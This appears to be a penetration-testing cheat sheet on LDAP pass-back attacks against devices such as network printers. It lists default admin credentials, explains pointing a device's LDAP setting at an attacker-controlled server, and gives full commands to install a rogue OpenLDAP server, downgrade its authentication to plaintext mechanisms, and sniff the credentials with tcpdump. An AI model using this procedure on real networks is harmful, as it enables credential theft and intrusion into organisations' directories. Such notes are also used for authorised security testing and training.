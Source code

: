 # LDAP
`389` - Default Port

## Pass-back Attacks
Occurs when you gain access to a device configuration where LDAP parameters are specified. An example would be the web interface of a network printer. Default credentials are `admin:admin` or `admin:password`. 

If you can change the ip or hostname to an LDAP server under your control you can capture the credentials.


## Hosting a Rogue LDAP Server
A device will try to negotiate the most secure LDAP authentication method. By creating a Rogue LDAP server we can ensure this method is weak.

1. Install OpenLDAP
```sh
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

2. Reconfigure 
```sh
sudo dpkg-reconfigure -p low slapd
```

3. Omit OpenLDAP server configuration? - No
4. DNS domain name - target domain
5. Organization DN - target domain
6. Setup administrator credentials
7. Select MDB
8. Database purge ? - No
9. Move old database - Yes
10. Downgrade the authentication to ensure the server only supports `PLAIN` and `LOGIN` authentication methods.
```sh
vi olcSaslSecProps.ldif

#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
`olcSaslSecProps` - Specifies the SASL security properties.
`nonanonymous` - Disables mechanisms that support anonymous login.
`minssf` - Minimum acceptable security strength with 0 is no protection.
11. Patch our LDAP server:
```sh
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
12. Verify configuration
```sh
ldapsearch -H ldap:// -x -LLL -s base -b ""
```
13. Try to get the device to connect to the ldap server. If you see "Connection failed: The distinguished name contains invalid syntax." Then you have succeeded.
14. Use `tcpdump` to capture the credentials
```sh
sudo tcpdump -SX -i MyInterface tcp port 389
```

